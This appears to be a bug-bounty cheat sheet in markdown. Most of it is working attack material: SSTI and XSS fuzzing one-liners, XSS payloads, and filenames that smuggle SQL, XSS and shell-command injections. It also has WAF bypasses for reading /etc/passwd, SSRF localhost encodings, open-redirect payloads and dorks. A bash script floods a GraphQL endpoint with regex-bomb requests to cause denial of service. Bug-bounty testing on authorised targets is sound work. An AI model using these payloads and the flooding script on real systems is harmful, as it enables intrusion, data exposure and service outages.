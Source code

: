 # Bug Bounty Tips File -3
## SSTI to RCE oneliner check
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
 ```sh
 waybackurls https://abc.com | grep '=' | qsreplace "abc{{9*9}}"  | httpx -match-regex 'abc81' -threads 300 -http-proxy http://127.0.0.1:8080/
 ```
search: abc81 in burpsuite search and check
## Chaining file uploads with other vulns:-
 Set filename to:- 
`../../../tmp/lol.png` for path traversals
`sleep(10)-- -.jpg` for SQLi.
`<svg onload=alert(document.comain)>.jpg/png` for xss
`; sleep 10;` for command injections
## Extract urls,srcs and hrefs from all HTML elements in any website
**Open DevTools and run**
```js
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls))
```
## XSS
### XSS Oneliner
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
### XSS Payloads for short length inputs
```js
<script src=//⑮.₨></script>
```
### XSS Payloads
```js
 img{background-image:url('javascript:alert()')}
 <svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
 TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
 ```
### Stored XSS Payloads
```js
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
```
## WAF Bypass
***WAF restriction? Use these:***
 ```sh
 /etc/passwd 
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
## SSRF Localhost Access Bypass
```sh
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
```
### When you are testing sharepoint applications check this file path that sometimes leads to directory listing:
```js
/_layouts/mobile/view.aspx
Google dork: /_layouts/mobile/view.aspx
```
## DOS GraphQl Endpoint
***Create DOS on GraphQl Endpoint by appending null characters by somehow***
You can reveal the bug inserting `"\u0000"` on search parameter, in order to display an error with part of the graph query.
** Example -1**
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
**Example -2** 
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
### Graphql Payload with Regex Bomb
```graphql
query a { 
  search(q: "[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 }
}
```
### Exploit Code
```sh
#!/bin/bash
RED='\033[0;31m'
Y='\033[0;33m'
NC='\033[0m' # No Color
printf  "${Y}================================================================\n"
printf  "${Y}====================${NC} EXECUTING THE PAYLOAD ON ${Y}=======================\n"
printf  "${NC}https://abc.com/graphql ${Y}========\n"
printf  "${Y}================================================================${NC}\n"
for i in {1..100}; do curl 'https://abc.com/graphql'  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' -H 'content-type: application/json' -H 'accept: */*'      --data-binary $'{"query":"query a { \\n  search(q: \\"[a-zA-Z0-9]+\\\\\\\\s?)+$|^([a-zA-Z0-9.\'\\\\\\\\w\\\\\\\\W]+\\\\\\\\s?)+$\\\\\\\\\\", lang: \\"en\\") {\\n    _id\\n   weapon_id\\n    rarity\\n    collection{ _id name }\\n    collection_id \\n \\n }\\n}","variables":null}' --compressed  & done

```
### Supporting Materials
> ***https://hackerone.com/reports/1000567***
---
## SSRF 
1. Create an account email@burp_collab*
2. Forgot password
3. Received requests from internal server + SMTP connection details
4. Got Internal headers + origin IP
5. https://abc.com/ = (403)
6. https://abc.com/dir = (Headers + Origin IP = pwn)
## Jira Dorks
```text
inurl:companyname intitle:JIRA login
inurl:visma intitle:JIRA login
```
## Open Redirect Bypass
### Payloads
```text
https:www.google.com
HtTp://google.com
http\x3A\x2F\x2Fgoogle.com
//google。com
x00http://google.com
////216.58.214.206
/\216.58.214.206
x20http://www.google.com
https://www.google.com
hthttp://tp://www.google.com
。/www.google.com
```
### Dorks & Parameter Names
```text
site:target.com AND inurl:url=http(s)
site:target.com AND inurl:u=http(s)
site:target.com AND inurl:redirect?http(s)
site:target.com AND inurl:redirect=http(s)
site:target.com AND inurl:link=http(s)
```
***Some parameter names that need attention while looking for Open Redirects:***
```text
?next=
?url=
?dest=
?redirect=
?returnTo=
?go=
?redirect_uri
?continue=
?return_path=
?externalLink=
?URL=
```

